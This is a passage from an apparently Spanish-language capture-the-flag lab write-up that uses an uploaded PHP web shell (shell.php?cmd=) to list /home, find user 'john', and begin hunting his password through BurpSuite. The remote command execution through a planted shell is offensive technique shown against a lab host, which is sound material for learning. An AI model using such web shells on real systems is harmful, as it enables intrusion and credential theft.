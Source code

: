 Y después:

```bash
?cmd=ls /home
```

![](../img/28a6b3416d511fc84ea2105de49142eb.png)

👤 Respuesta del servidor: 

```bash
john
```

🔎 Con esto ya tenemos el **usuario con home directory: `john`**


## 🧩 Tarea 8 - ¿Cuál es la contraseña del usuario presente en el sistema?

### 🎯 Objetivo:

Encontrar la contraseña del usuario `john` en el sistema remoto, tras haber detectado su existencia en `/home`.

### 🛠️ Paso a paso

#### 1. 🔧 Configuración de entorno y herramientas

- Se activa **FoxyProxy** en Firefox apuntando a **BurpSuite**.
    
- Se abre la URL vulnerable con ejecución remota de comandos:

```bash
http://10.129.95.184/_uploaded/shell.php?cmd=whoami
```

![](../img/4ca9ed3193c9678c6a35ce0ec35ebefc.png)
